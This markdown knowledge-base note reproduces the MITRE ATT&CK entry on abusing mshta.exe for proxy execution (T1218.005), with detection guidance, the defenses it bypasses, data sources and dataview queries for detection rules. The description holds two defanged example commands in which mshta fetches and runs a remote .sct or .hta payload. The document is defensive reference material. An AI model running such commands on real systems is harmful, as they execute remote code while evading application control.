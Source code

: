 ```yaml
---
created: 2020-01-23
last_modified: 2022-03-11
version: 2.0
tactics: Defense Evasion
url: https://attack.mitre.org/techniques/T1218/005
platforms: Windows
tags: [T1218_005, techniques, Defense_Evasion]
---
```


## System Binary Proxy Execution- Mshta

### Description

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

### Detection

Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed .hta files to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the .hta file being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious

### Defenses Bypassed

Application control, Digital Certificate Validation

### Data Sources

  - Command: Command Execution
  -  File: File Creation
  -  Network Traffic: Network Connection Creation
  -  Process: Process Creation
### Detection Rule

```dataview
table without id
file.link AS "Name",
status AS "Status",
level AS "Level",
logsrc_product AS "Log Source Product"
FROM "Detection Rules" AND #T1218_005
```

### Rule Testing

```dataview
TABLE without id
filename AS "Name"
FROM "Testing Runbooks" AND #T1218_005
```
